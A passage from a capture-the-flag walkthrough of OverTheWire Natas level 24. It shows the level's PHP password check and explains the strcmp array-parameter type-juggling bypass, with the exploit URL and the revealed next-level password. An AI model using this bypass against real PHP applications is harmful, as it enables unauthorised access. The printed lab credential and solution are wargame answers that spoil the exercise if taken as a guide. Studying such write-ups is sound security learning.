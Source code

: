 ```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

Looking at the code, it is obvious that either the password needs to be bruteforced or strcmp function needs to be bypassed i.e strcmp should return 0. 

Strcmp returns 0 if two strings are same. If an array is sent rather than string it returns NULL. And in php NULL==0 returns true as a result the strcmp function can be bypassed.

```php
http://natas24.natas.labs.overthewire.org/?passwd[]=a
```

natas25 : GHF6X7YwACaYYssHVY05cFq83hRktl4c

# Level 25-26

![/assets/images/OverTheWire/Natas/Untitled%2019.png](/assets/images/OverTheWire/Natas/Untitled%2019.png)
